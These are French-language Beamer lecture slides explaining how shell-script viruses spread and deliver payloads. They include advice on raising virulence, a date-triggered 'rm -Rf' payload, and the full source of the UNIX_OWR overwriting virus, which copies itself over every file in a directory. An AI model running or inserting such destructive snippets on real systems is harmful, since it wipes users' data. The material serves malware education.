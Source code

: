 \documentclass{beamer}
\begin{document}
\begin{frame}
\frametitle{Accroissement de la virulence}

\begin{itemize}
\item L'action est limitée car elle est restreinte au répertoire courant.
\item L'infection par le virus pose le problème de pouvoir distinguer script et fichier compilé.
\item On peut augmenter la virulence en testant l'existence de la chaîne \texttt{\#!/bin/bash} en début de fichier.
\item On peut augmenter la virulence en faisant un parcours récursif de l'arborescence des fichiers.
\end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Placement d'une charge finale}


\begin{itemize}
\item On peut choisir de l'exécuter uniquement si l'infection est réussie.
\item Ou encore si un nombre suffisant de fichiers a été infecté.
\item Son exécution peut être liée à une condition, par exemple
\begin{semiverbatim}
if test "\$(date +\%b\%d)" == "Jan21"; then
 rm -Rf
fi
\end{semiverbatim}
\end{itemize}
\end{frame}

\section{Exemples réels}

\subsection{Le virus \texttt{UNIX\_OWR}}


\begin{frame}[fragile]
\frametitle{Le virus \texttt{UNIX\_OWR}}
\texttt{UNIX\_OWR} (pour overwrite) est un virus simple et petit,
il fonctionne par écrasement de code.

\medskip

\begin{block}{Le virus \texttt{UNIX\_OWR}}
\begin{semiverbatim}
for file in *; do # pour tout fichier
    cp $0 $file # écraser le fichier cible par le virus
done
\end{semiverbatim}
\end{block}
\end{frame}
\end{document}
